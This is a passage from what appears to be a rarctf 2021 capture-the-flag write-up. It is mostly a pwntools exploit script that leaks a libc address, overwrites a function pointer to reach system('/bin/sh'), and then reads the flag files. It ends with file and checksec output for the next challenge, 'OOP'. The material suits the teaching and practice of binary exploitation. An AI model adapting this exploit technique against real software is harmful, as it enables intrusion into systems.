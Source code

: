 ```python
# b *0x401951
# b *0x4018ed
# b *0x401908
# b *0x401777
# """)

def read_chl():
    r.sendlineafter('> ', '0')

def view_user():
    r.sendlineafter('> ', '1')

def chg_role_name():
    r.sendlineafter('> ', '2')

def chg_uname():
    r.sendlineafter('> ', '3')

read_chl()
r.recvuntil('Choose channel to view')
r.sendlineafter('> ', '-4')
# sleep(0.5)
input()
r.sendline('-16:123')
libc = r.recvuntil('\x1B[0;37m:', drop=True).split(b'[0;31m#')[1]
libc = u64(b'\x00' + libc.ljust(7, b'\x00')) - 0x1ec700
_gets = libc + 0x86af0
_system = libc + 0x55410
info(f"""
libc: {hex(libc)}
gets: {hex(_gets)}
""")

r.sendline('1.0')

chg_uname()
r.sendlineafter('Enter new username: ', b'\xaa' * 0x20 + p64(_gets)[:-2])
chg_uname()
r.sendline(b"/bin/sh\x00" + p64(0) * 5 + p64(_system))
chg_uname()

sleep(0.5)
r.sendline('cat /harmony/channels/* | grep rar')

r.interactive()
```



### OOP

```
// file
oop: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 4.4.0, with debug_info, not stripped

// checksec
[*] '/home/u1f383/rarctf_2021/OOP/OOP/oop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

